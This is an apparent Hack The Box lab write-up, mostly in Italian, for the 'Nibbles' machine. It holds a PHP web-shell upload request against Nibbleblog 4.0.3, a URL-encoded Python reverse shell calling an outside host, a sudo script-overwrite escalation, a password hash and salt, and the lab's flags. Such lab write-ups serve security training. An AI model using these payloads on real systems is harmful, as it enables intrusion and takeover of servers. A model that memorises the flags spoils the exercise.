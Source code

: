 #+TITLE: HTB - Nibbles
#+AUTHOR: Leonardo Tamiano
#+HTML_HEAD_EXTRA: <style>pre { background-color: #000; color: #bbb; } </style>

* Basic Info
  :PROPERTIES:
  :UNNUMBERED: t
  :END:
  - *Default IP*: 10.10.10.75
  - *Video*: [[https://www.youtube.com/watch?v=cowRDytxKuY&t=121s][HTB - Nibbles]]
  - *Table of contents*:
    #+TOC: headlines 2

  ------------------------
  
  A seguire è riportato un breve walkthrough della macchina *Nibbles*
  offerta dalla piattaforma Hack the Box.

* Enumeration
** nmap
*** nmap -sC -sV nibbles
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-12 02:08 CET
Nmap scan report for nibbles (10.129.66.223)
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.73 seconds
    #+end_example

*** nmap -p- nibbles
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-12 02:08 CET
Nmap scan report for nibbles (10.129.66.223)
Host is up (0.055s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.84 seconds
    #+end_example

** nibbleblog
*** credentials
    #+begin_example
admin:nibbles
    #+end_example
** priv esc
*** nibbler
**** user flag
     #+begin_src sh
cat /home/nibbler/user.txt     
     #+end_src
**** sudo -l
     #+BEGIN_EXAMPLE
Matching Defaults entries for nibbler on Nibbles:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
     #+END_EXAMPLE

**** root flag
     Unzip the ~personal.zip~ file in in nibbles home dir and execute
     the following
     
     #+begin_src sh
echo "echo /root/root.txt > .logic && chmod 777 .logic" > monitor.sh 
sudo -u root ./monitor.sh    
     #+end_src     

   @@html: <hr style="border: 1px solid #A1283B;" />@@

* Walkthrough
** scans con nmap
   Uno scan base con nmap rivela la seguente situazione

   *nmap -sC -sV nibbles*

   #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-12 02:08 CET
Nmap scan report for nibbles (10.129.66.223)
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.73 seconds
   #+end_example

   Come possiamo vedere, abbiamo un server in ascolto nella porta
   $80$.
   
** nibbleblog RFI per RCE
   Andando nella pagina principale del web server e visualizzando il
   codice html della pagina troviamo il seguente commento
   
   #+BEGIN_SRC html
<!-- /nibbleblog/ directory. Nothing interesting here! -->    
   #+END_SRC

   Andando nella risorsa ~/nibbleblog~ del sito troviamo una istanza di
   *nibbleblog*, una blog engine scritta in php. La versione dell'engine
   è la ~4.0.3~, che è vulneraible alla seguente *Remote File Inclusion*
   (RFI):

   - https://www.exploit-db.com/exploits/38489
   - [[https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html][NibbleBlog 4.0.3 Shell Upload]]
   - [[https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/][How To Upload A Shell In Nibbleblog 4.0.3]]   
  
   Per exploitare questa RFI possiamo procedere come segue

   1. Attiviamo il plugin ~my image~ con la seguente richiesta http

      #+begin_src sh
curl http://nibbles/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image      
      #+end_src

   2. Carichiamo lo script php facendo finta che sia un'immagine con
      la seguente richiesta HTTP, che può essere inviata ad esempio
      con ~burpsuite~.

      #+BEGIN_EXAMPLE
POST /nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image HTTP/1.1
Host: nibbles
Content-Length: 1026
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://nibbles
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydfj2vBXAZsGAFBeB
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://nibbles/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=tj71gvde5ucrj0jirrlt5e11h5
Connection: close

------WebKitFormBoundarydfj2vBXAZsGAFBeB
Content-Disposition: form-data; name="plugin"

my_image
------WebKitFormBoundarydfj2vBXAZsGAFBeB
Content-Disposition: form-data; name="title"

My image
------WebKitFormBoundarydfj2vBXAZsGAFBeB
Content-Disposition: form-data; name="position"

4
------WebKitFormBoundarydfj2vBXAZsGAFBeB
Content-Disposition: form-data; name="caption"


------WebKitFormBoundarydfj2vBXAZsGAFBeB
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: application/x-php

<?php echo system($_REQUEST['cmd']) ?>
------WebKitFormBoundarydfj2vBXAZsGAFBeB
Content-Disposition: form-data; name="image_resize"

1
------WebKitFormBoundarydfj2vBXAZsGAFBeB
Content-Disposition: form-data; name="image_width"

230
------WebKitFormBoundarydfj2vBXAZsGAFBeB
Content-Disposition: form-data; name="image_height"

200
------WebKitFormBoundarydfj2vBXAZsGAFBeB
Content-Disposition: form-data; name="image_option"

auto
------WebKitFormBoundarydfj2vBXAZsGAFBeB--
      #+END_EXAMPLE

   3. Una volta che abbiamo caricato la shell nel server remoto
      possiamo eseguire il nostro codice e spawnare una reverse shell
      
      #+BEGIN_SRC sh
http://nibbles/nibbleblog/content/private/plugins/my_image/image.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.95%22,4321));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27%20&
      #+END_SRC

** user flag
   Una volta che siamo dentro la macchina possiamo leggere
   direttamente la user flag situata nella seguente path

   #+begin_example
/home/nibbler/user.txt
   #+end_example

   in quanto siamo loggati come l'utente ~nibbler~.

** root flag
   Per ottenere la root flag invece dobbiamo prima unzippare il file
   ~personal.zip~ presente nella home directory dell'utente ~nibbler~.

   Eseguendo il comando ~sudo -l~ troviamo la seguente situazione

   #+BEGIN_EXAMPLE
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh     
   #+END_EXAMPLE

   Come possiamo vedere, l'utente ~nibbler~ può esseguire lo script
   ~monitor.sh~ situato nella seguente path

   #+begin_example
/home/nibbler/personal/stuff
   #+end_example

   L'idea quindi è quella di modificare lo script ~monitor.sh~ e di
   eseguirlo come root
   
   #+begin_src sh
echo "echo /root/root.txt > .logic && chmod 777 .logic" > monitor.sh 
sudo -u root ./monitor.sh    
   #+end_src     

* Extra
  A seguire qualche note extra.
  
** Analisi RFI Nibbleblog 4.0.3
   Per capire come è stato possibile exploitare la RFI di ~nibbleblog
   4.0.3~ scarichiamo il codice dal seguente mirror.

   [[https://www.download3k.com/Install-Nibbleblog.html][Nibbleblog 4.0.3 Download Mirrors]]

   La vulneraiblità è presente nella funzione ~move_uploaded_file()~,
   riportata qui a seguire. Da notare il commento "WARNING".
   
     #+BEGIN_SRC php
if( ($_SERVER['REQUEST_METHOD'] == 'POST') && isset($_POST['plugin']) )
{
	$plugin = $plugins_all['PLUGIN_'.strtoupper($_POST['plugin'])]; // PLUGIN_MY_IMAGE

	if( $plugin->init_db() )
	{
		// upload files
		foreach($_FILES as $field_name=>$file)
		{
			// get file extension (.php)
			$extension = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
			
			// get destination dir (/content/private/plugins/my_image)
			$destination = PATH_PLUGINS_DB.$plugin->get_dir_name();
			
			// complete file name
			$complete = $destination.'/'.$field_name.'.'.$extension;

			// WARNING (!!!): no checks on the extension are made
			// before uploading!  Upload the new file and move
			if(move_uploaded_file($file["tmp_name"], $complete))
			{
				// Resize images if requested by the plugin
				if(isset($_POST[$field_name.'_resize']))
				{
					$width = isset($_POST[$field_name.'_width'])?$_POST[$field_name.'_width']:200;
					$height = isset($_POST[$field_name.'_height'])?$_POST[$field_name.'_height']:200;
					$option = isset($_POST[$field_name.'_option'])?$_POST[$field_name.'_option']:'auto';
					$quality = isset($_POST[$field_name.'_quality'])?$_POST[$field_name.'_quality']:100;

					$Resize->setImage($complete, $width, $height, $option);
					$Resize->saveImage($complete, $quality, true);
				}
			}
		}

		unset($_POST['plugin']);

		// update fields
		$plugin->set_fields_db($_POST);

		Session::set_alert($_LANG['CHANGES_HAS_BEEN_SAVED_SUCCESSFULLY']);
	}
}
     #+END_SRC

** Crack password + Salt                                           :noexport:
   Once we are inside we can access the
   ~/var/www/html/nibbleblog/content/private~ to get from the ~shadow.php~
   file the following content
     
   #+BEGIN_SRC php
<?php
$_USER[0]["uid"] = "0";
$_USER[0]["username"] = "admin";
$_USER[0]["password"] = "ea8e3c9799c10e2982c0b54299fd866f32b95f5a";
$_USER[0]["salt"] = "8^8!@tv&zb3";
// ...
?>
   #+END_SRC

   As we can see, we have an hashed password and a salt. Using
   ~hash-identifier~ we get
     
   #+BEGIN_EXAMPLE
Possible Hashs:
[+] SHA-1                                         
[+] MySQL5 - SHA-1(SHA-1($pass))
   #+END_EXAMPLE

* Legacy Walkthrough                                               :noexport:
  #+begin_src sh
nmap -sV -sC -oA nmap 10.10.10.75
dirb http://10.10.10.75 -r -o tempo.dirb  
  #+end_src

  In ~nibbleblog/admin.php~ there is a login page. User credentials are,
  username: admin, password: nibbles.

  Use plugin ~'my image'~ to load file. Supposedly we have to load an
  image, however we can mask a php file to look like an image. With
  this we can get code execution. In particular we want to upload the
  following php code
  
  #+begin_src php
<?php echo system($_REQUEST['ipp']) ?>  
  #+end_src
    
  So that we'll be able to execute remote code by sending requests to
  the server. However, to upload this we'll have to mask it an
  image. Using BurpSuite we can fake an image with a php file.

  Once we upload the php file we can then send requests to open a
  remote shell. 

  Once having a remote shell we simply do ~sudo -l~ and realize that we
  can execute as root the file in
  ~/home/nibbles/personal/stuff/monitor.sh~.

  To exploit this we can do the following
  
  #+begin_src sh
echo "echo /root/root.txt > .logic && chmod 777 .logic" > monitor.sh 
sudo -u root ./monitor.sh    
  #+end_src

  ---------

  To get root access you can also use [[https://www.exploit-db.com/exploits/44298/][CVE 2017-16995]].
* Flags                                                            :noexport:
  - *user*: 2c281f318555dbc1b856957c7147bfc1
  - *root*: cc4f0afe3a1026d402ba10329674a8e2
